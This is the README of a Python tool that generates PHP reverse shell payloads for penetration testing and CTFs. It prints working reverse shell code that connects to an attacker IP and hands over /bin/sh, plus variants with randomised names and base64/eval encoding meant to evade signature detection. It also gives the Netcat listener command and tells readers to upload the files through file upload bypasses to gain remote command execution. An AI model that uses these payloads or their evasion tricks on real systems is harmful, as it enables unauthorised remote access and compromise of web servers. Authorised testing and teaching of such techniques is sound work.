 # PHP Reverse Shell Generator

> **For authorized security testing and educational use only.**  
> Always obtain explicit written permission before deploying reverse shells on any system.

---

## 📌 Overview

`reverse_shell_gen.py` is a lightweight, command-line Python tool designed to **generate customizable PHP reverse shell payloads**, optionally **obfuscate** them, save them with **multiple file extensions**, and **automatically launch a Netcat listener**. It is particularly useful in penetration testing, red team engagements, and Capture-The-Flag (CTF) challenges where PHP-based web shells are needed.

---

## 🛠️ Features

- **Dynamic payload generation** with user-defined attacker IP and port.
- **Multiple output extensions**: `.php`, `.phtml`, `.php3`, `.php4`, `.php5`, `.php7`, `.inc`.
- **Obfuscation options**:
  - `none`: Plain, readable PHP.
  - `basic`: Randomized variable names.
  - `base64`: Encoded payload executed via `eval(base64_decode(...))`.
- **Auto listener**: Launches `nc -nvlp <port>` after payload generation.
- **Modular design**: Easy to extend with new obfuscation or payload types.

---

## 📦 Requirements

- Python 3.6+
- Netcat (`nc`) installed (for `--listen` functionality)
- Standard library only (no external dependencies)

---

## 🚀 Usage

### Basic Syntax
```bash
python3 reverse_shell_gen.py --ip <ATTACKER_IP> [OPTIONS]
```

### Examples

#### 1. Generate a basic PHP reverse shell
```bash
python3 reverse_shell_gen.py --ip 192.168.1.10
```
> Saves `shell.php` with default port `2001`.

#### 2. Custom IP, port, filename, and auto-listener
```bash
python3 reverse_shell_gen.py --ip 10.0.0.5 --port 4444 --output rev --listen
```
> Saves `rev.php` and starts `nc -nvlp 4444`.

#### 3. Generate multiple obfuscated variants
```bash
python3 reverse_shell_gen.py --ip 172.30.97.88 --port 8080 \
  --ext php phtml php5 \
  --obfuscate base64 \
  --output webshell
```
> Creates:
> - `webshell.php`
> - `webshell.phtml`
> - `webshell.php5`  
> All encoded in Base64.

#### 4. Use basic obfuscation (random variable names)
```bash
python3 reverse_shell_gen.py --ip 127.0.0.1 --port 9001 --obfuscate basic
```

---

## ⚙️ Command-Line Arguments

| Argument | Type | Default | Description |
|--------|------|--------|-------------|
| `--ip` | string | **required** | Your attacker machine’s IP address (e.g., `192.168.45.123`) |
| `--port` | integer | `2001` | Listening port for the reverse shell |
| `--output` | string | `shell` | Base filename (extension added automatically) |
| `--ext` | list | `["php"]` | One or more PHP-compatible extensions (choices: `php`, `phtml`, `php3`, `php4`, `php5`, `php7`, `inc`) |
| `--obfuscate` | choice | `none` | Obfuscation method: `none`, `basic`, or `base64` |
| `--listen` | flag | disabled | Automatically start a Netcat listener on the specified port |

> 💡 **Tip**: Combine `--listen` with `--port` to streamline your attack workflow.

---

## 🔐 Obfuscation Methods

### 1. `none` (Default)
Generates clean, readable PHP:
```php
<?php
$ip = '192.168.1.10';
$port = 2001;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

### 2. `basic`
Uses randomly generated variable names to evade basic signature detection:
```php
<?php
$aBcDeFgH = '192.168.1.10';
$iJkLmNoP = 2001;
$qRsTuVwX = fsockopen($aBcDeFgH, $iJkLmNoP);
$yZabCdeF = proc_open('/bin/sh', array(0 => $qRsTuVwX, 1 => $qRsTuVwX, 2 => $qRsTuVwX), $pipes);
?>
```

### 3. `base64`
Encodes the entire payload in Base64 and executes it via `eval`:
```php
<?php eval(base64_decode('PD9waHAKJGlwID0gJzE5Mi4xNjguMS4xMCc7CiRwb3J0ID0gMjAwMTsKJHNvY2sgPSBmc29ja29wZW4oJGlwLCAkcG9ydCk7CiRwcm9jID0gcHJvY19vcGVuKCcvYmluL3NoJywgYXJyYXkoMCA9PiAkc29jaywgMSA9PiAkc29jaywgMiA9PiAkc29jayksICRwaXBlcyk7Cj8+')); ?>
```

> ⚠️ Note: Base64 obfuscation may still be flagged by modern WAFs or EDRs that decode and inspect payloads.

---

## 🧪 Listener Behavior

When `--listen` is used:
- The script runs: `nc -nvlp <port>`
- If `nc` is not installed, it prints an error and exits gracefully.
- Press `Ctrl+C` to stop the listener.

> 🔍 Ensure your firewall allows inbound connections on the chosen port.

---

## 📁 Output Files

All payloads are saved in the **current working directory**. Example outputs:
- `shell.php`
- `rev.phtml`
- `webshell.php5`

These files can be uploaded to vulnerable web applications (e.g., via file upload bypasses) to gain remote command execution.

---

## ⚠️ Legal & Ethical Notice

This tool is intended **exclusively** for:
- Authorized penetration testing
- Security research
- Educational labs and CTF competitions

**Never use this tool against systems you do not own or lack explicit written permission to test.** Unauthorized access violates laws such as the Computer Fraud and Abuse Act (CFAA) and similar regulations worldwide.

---

## 🧩 Extending the Tool

You can enhance this script by:
- Adding more obfuscation layers (e.g., `chr()`, string reversal, gzip)
- Supporting other payload types (e.g., Python, Bash, PowerShell)
- Integrating with HTTP servers for quick payload delivery
- Adding AV evasion techniques (for red team use within legal boundaries)

---
## 🧑‍💻 Author

**Oussama Ben Hadj Dahman @cybereagle2001**  
*Junior Information Security Consultant @ TALAN*  
🔐 ISO 27001 | eJPT | CDFE | CPT | CC  

---
## 📜 License

This script is provided **as-is** with no warranty. Use responsibly and ethically.

> Developed with ❤️ for the infosec community.
